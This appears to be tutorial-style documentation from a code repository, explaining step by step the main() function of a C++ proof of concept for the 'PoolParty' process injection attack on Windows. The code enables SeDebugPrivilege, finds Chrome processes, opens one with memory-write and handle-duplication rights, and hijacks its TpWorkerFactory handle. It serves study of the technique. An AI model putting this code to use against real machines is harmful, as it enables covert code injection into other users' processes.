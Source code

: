 # Why Documenting the Algorithms of functions?
- This documentation is intended for people that has no experience with the Windows API, so it's a friendly tutorial to understand the code.

# main():
### Parameters:
### Return:
### Algorithm:
- Enable "SeDebugPrivilege" on current process with [setCurrentProcessPrivilege()](#setcurrentprocessprivilege) and print if no errors.
```cpp
int main() {
    setCurrentProcessPrivilege("SeDebugPrivilege");
    cout << "\nsetCurrentProcessPrivilege(): Exitoso";
```
- Get all PIDs whose process name matches "chrome.exe" with [getPidFromExe()](#getpidfromexe) and print it.
```cpp
    vector<DWORD> chromePids = getPidFromExe(L"chrome.exe");
    cout << "\nLos pids de chromeSon: ";
    for (auto const& c : chromePids)
        std::cout << " " << c;
```
- Loop through the retrieved PIDs, call **OpenProcess()** with each of them, takes the first that returns a valid handle and save the handler on hTarget.
- The **val**, **valExp**, **valTemp** functions validates all the parameters before call and the return value of the call. The **info()** returns a struct with debugging information to the **val** family functions.
- The **checkError** should be true if no errors ocurred during the loop (we send the **checkError** to the call of "val" function).
```cpp
    HANDLE hTarget = nullptr;
    bool checkError = false;
    int i = 0;
    for (; checkError == false && i < chromePids.size(); i++) {
        checkError = true;
        hTarget = val(info(CHECK_HANDLE,"13","",ErrorCout),   OpenProcess, PROCESS_VM_READ | PROCESS_VM_WRITE | PROCESS_VM_OPERATION | PROCESS_DUP_HANDLE | PROCESS_QUERY_INFORMATION, FALSE, chromePids[i]);
        valExp(info(CHECK_HANDLE,"13.5","",ErrorBool,&checkError),    hTarget);
    }
    if (checkError == true) {
        cout << "\nPid funcional: " << chromePids[i];
    }
```
- On [hijackProcessHandle()](#hijackprocesshandle) are the main code of the PoolParty Attack. If no errors here we get a handle to the TpWorkerFactory of the target process, then print it.
```cpp
    HANDLE hProp = val(info(CHECK_HANDLE,"14"),   hijackProcessHandle, wstring(L"TpWorkerFactory"), hTarget, WORKER_FACTORY_ALL_ACCESS);
    cout << "\nThe final target address: " << hProp;

    system("pause");

}
```
